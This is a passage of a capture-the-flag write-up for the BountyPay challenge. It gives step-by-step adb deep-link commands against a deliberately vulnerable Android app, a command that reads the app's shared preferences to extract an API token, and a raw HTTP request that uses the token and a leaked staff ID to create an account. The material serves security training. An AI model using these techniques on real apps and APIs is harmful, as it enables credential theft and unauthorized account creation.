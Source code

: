 Step 1:
{F853139}
```
adb shell am start -a android.intent.action.VIEW -d "one://part?start=PartTwoActivity" -n bounty.pay/.PartOneActivity
```
Step 2:
{F853140}
```
adb shell am start -a android.intent.action.VIEW -d "two://part?two=light\&switch=on" -n bounty.pay/.PartTwoActivity 
```
a hash showed up on the screen which on decryption was `Token` and the form asked for the header and we all know that custom headers begin with `X-` so, I  entered X-Token on the form taking us to the last step. 
Step 3:
{F853141}
```
adb shell am start -a android.intent.action.VIEW -d "three://part?three=UGFydFRocmVlQWN0aXZpdHk=\&switch=b24=\&header=X-Token" -n bounty.pay/.PartThreeActivity
```
which gets stored on the file `/data/data/bounty.pay/shared_prefs/user_created.xml` so on viewing it:  
```
adb shell cat ./data/data/bounty.pay/shared_prefs/user_created.xml
```

```xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?> 
<map> 
    <string name="PARTTWO">COMPLETE</string> 
    <string name="USERNAME">0xatul</string> 
    <string name="HOST">http://api.bountypay.h1ctf.com</string> 
    <string name="PARTONE">COMPLETE</string> 
    <string name="TWITTERHANDLE">atul_hax</string> 
    <string name="TOKEN">8e9998ee3137ca9ade8f372739f062c1</string> 
</map> 

```
and we can enter `8e9998ee3137ca9ade8f372739f062c1` on the form pop-up and the android bit of the challenge is solved. 
# Damn Sandra!
{F853145}
so from the hint I looked at the the list of accounts the [account](https://twitter.com/bountypayhq) is following, and I saw a user named [Sandra](https://twitter.com/SandraA76708114) who leaked their staff_id on twitter. As we grabbed a token from the android bit, so using the token `X-Token: 8e9998ee3137ca9ade8f372739f062c1` on the request we can create a new account as Sandra
request: 
```
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

staff_id=STF:8FJ3KFISL3
```
